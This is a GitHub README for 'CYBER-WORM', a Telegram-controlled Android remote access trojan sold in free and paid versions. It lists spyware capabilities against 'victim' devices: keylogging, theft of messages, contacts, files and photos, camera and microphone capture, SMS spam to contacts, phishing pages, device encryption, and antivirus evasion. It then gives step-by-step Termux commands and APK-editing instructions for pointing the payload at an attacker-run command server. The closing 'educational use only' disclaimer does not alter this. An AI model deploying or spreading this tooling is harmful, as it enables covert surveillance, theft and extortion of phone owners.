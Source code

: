 <h1 align=center> CYBER-WORM </h1>

-------------------------

<p align="center">
  <i>A multifunctional Telegram based Android Hacking OSINT without port forwarding</i>
</p>


## Features
-🔐 Keylogger {Availbe in apk v1 and v2}1
- 📱 Control Keys (Back, Recent, Home)
- 🔊 Control device volume
- ✨ Beautiful telegram bot interface
- 🤖 Undetectable by antivirus
  ## CYBER-WORM T PAID VERSION FEATURES
- 🖥️ Screenshot (get screenshot from your victim device)
- 📒 Gallery puller (Get all photos available in gallery)
-  🔤 Advance Keylogger
- 🔴 Real time
- 🌐 custom web view
- 📡 receive information about simcard provider
- 📳 vibrate target device
- 🛰️ receive device location
- ✉️ receive all target message
- ✉️ send sms with target device to any number
- ✉️ send sms with target device to all of his/her contacts
- 👤 recive all target contacts
- 💻 receive list of all installedd apps in target device
- 📁 receive any file or folder from target device
- 📁 delete any file or folder from target device
- 🔔 notification reader
- 🔔 notification sender (send custom notification that apper on target device with custom click link)
- 🗨️ show toast message on target device (Toasts are messages that appear in a box at the bottom of the device)
- 📷 capture main and front camera
- 🎙 capture microphone (with custom duration)
- 📋 receive last clipboard text
- 🔦 Torch ON & OFF {if flash available on device}
- ✅️ auto start after device boot
- 🔐 Open any phising page in victim device
-  📁 PowerFull file manager {delete and Download Files}
-  Auto grant permissions
-  Decrypt & Encrypt device
- ✨ Beautiful telegram bot interface
- 🤖 Undetectable by antivirus
  <p align="center">
  <a href="https://t.me/MiHRK_Owner">
    <img src="https://img.shields.io/badge/BUY-NOW-blue?style=for-the-badge&logo=telegram" alt="Telegram Badge"/>
  </a>
  <a href="https://t.me/Hidden_Database">
    <img src="https://img.shields.io/badge/BUY-NOW-blue?style=for-the-badge&logo=telegram" alt="Telegram Badge"/>
  </a>
  <a href="https://t.me/Technical_Robot">
    <img src="https://img.shields.io/badge/BUY-NOW-blue?style=for-the-badge&logo=telegram" alt="Telegram Badge"/>
  </a>
  </p>
<h2>Requirements</h2>
<ul>
  <li><span style="color: #0074D9;">APK EDITOR</span></li>
  <li><span style="color: #2ECC40;">TERMUX</span></li>
  <li>For hosting server code, you can use some free services like:</li>
  <ul>
    <li><a href="https://replit.com/@VivekOberoi/CYBER-WORM-Hosting#index.js" style="color: #FF4136;">🍁𝐓𝐎𝐏-𝟏👉🏻 (Replit.com)</a></li>
    <li><a href="https://glitch.com/" style="color: #FFDC00;">glitch.com</a></li>
    <li><a href="https://heroku.com/" style="color: #B10DC9;">heroku.com</a></li>
    <li><a href="https://render.com/" style="color: #B10DC9;">render.com</a></li>
  </ul>
  <p align="center">
  
  </a>
</p>
  <li>Keep in mind that these sites can suspend your projects, so it's better to host on your own computer.</li>
  
</ul>

<h2 align="center">Download</h2>

<p align="center">
  <a href="https://github.com/Technical-Robot/Termux_0.119.1/raw/main/Termux_0.119.1_Letest_Ver%20signed%20by%20F-Droid_.zip">
    <img src="https://img.shields.io/badge/Termux%20Download-Click%20to%20Download-brightgreen?style=for-the-badge&logo=android" alt="Download Termux" />
  </a>
  <a href="https://github.com/Technical-Robot/Apk-Editor-Pro-2024/raw/main/APK%20Editor%20UI_3.0.6.apk">
    <img src="https://img.shields.io/badge/APK%20Editor%20Download-Click%20to%20Download-brightgreen?style=for-the-badge&logo=android" alt="Download APK Editor" />
  </a>
</p>


## How to host server in Termux 
<p>Run the following commands in Termux:</p>



```bash  
  pkg update && upgrade -y
  
  pkg install git -y
  
  git clone https://github.com/Technical-Robot/CYBER-WORM
  
  cd CYBER-WORM
  
  bash start.sh
  
Enter your bot token 

Enter your chatid 

And hit enter

Now open a new Tab, and give these commands

pkg install openssh

bash port.sh 

Enter your telegram username And hit enter 

Copy url and minimize the termux
```

## Edit apk
 - Open Apk editor 
 - select apk
 - choose full edit
 - select decode all files
 - go to assets folder
 - open host.json
 - and enter url
 - in socket replace url https to wss 
 - build apk ,start the bott  Enjoy

## example
```bash  
  { 
  "host": "https://yoururl.com/", 
  "socket": "wss://yoururl.com/", 
  "webView": "https://google.com/" 
}
```

## How to Build in Android Studio

To build the application in Android Studio, follow these steps:

1. Open the Android Studio and import the application source code.
2. Navigate to the following path in the source code: `Utils/AppTools.java`.
3. In the `AppTools.java` file, locate the `data` variable and copy your server information into it.
4. However, before copying the server information directly into the variable, you must encode it using Base64.
5. Here is an example server structure for your server information:
```
{
"host" : "",
"socket" : "",
"webView" : "https://www.google.com"
}
```

6. Fill in the above server structure with your server information.
7. Go to https://www.base64encode.org/ and copy the encoded result of your server data.
8. In Android Studio, paste the encoded result into the `data` variable.
9. The final code should look like this:

```java
public static AppData getAppData() {
  String data = "<your encoded server info>";
  String text = decode(data);
  return new Gson().fromJson(text, AppData.class);
}
```



<p align="center">
  <img src="https://img.shields.io/badge/Disclaimer-Important-red" alt="Important Disclaimer"/>
</p>

<p align="center">
  <b><i>Note:</i></b> The developer provides no warranty with this software and will not be responsible for any direct or indirect damage caused by the usage of this tool. CYBER-WORM is built for educational and internal use only.
</p>

<p align="center">
  <b><i>Attention:</i></b> We do not endorse any illegal or unethical use of this tool. The user assumes all responsibility for the use of this software.
</p>


<p align="center">
  <b><i>Thank you for using CYBER-WORM  - we hope it serves its intended purpose and helps you achieve your goals!</i></b>
</p>





<p align="center">
<h1 align="center">Sponsorship</h1>

<p align="center">If you find my work valuable, you can show your support by sponsoring me. 
  Your contribution will help me maintain and improve my projects, and it will encourage me to create more useful content.</p>




<p align="center">Thank you to the following people for their support:</p>


</div>

  <br>

  <h1 align=center>Technology Stack Used</h1>
  <p align="center">
    <img src="https://img.shields.io/badge/backend-javascript-violet.svg?logo=javascript&style=flat-square" alt="Javascript" </img>
    <img src="https://img.shields.io/badge/frontend-shell-green.svg?logo=shell&style=flat-square" alt="Shell"</img>
    <img src="https://img.shields.io/badge/frontend-java-orange.svg?logo=java&style=flat-square" alt="Java"</img>
    <img src="https://img.shields.io/badge/frontend-kotlin-violet.svg?logo=kotlin&style=flat-square" alt="Shell"</img>
  </p>

  <br>
